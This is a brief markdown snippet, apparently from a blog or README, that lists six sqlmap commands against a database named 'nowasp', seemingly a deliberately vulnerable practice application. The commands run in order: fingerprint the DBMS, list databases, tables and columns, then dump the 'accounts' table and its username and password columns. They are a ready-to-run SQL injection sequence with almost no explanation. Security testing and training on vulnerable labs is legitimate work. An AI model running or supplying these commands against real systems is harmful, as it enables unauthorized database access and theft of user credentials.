

#### Add to your Blog

- Demo





- Commands

```sh
python sqlmap.py -r req.txt --threads=10 -f
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL --dbs
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL -D nowasp --tables
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL -D nowasp -T accounts --columns
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL -D nowasp -T accounts --dump
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL -D nowasp -T accounts -C username,password
```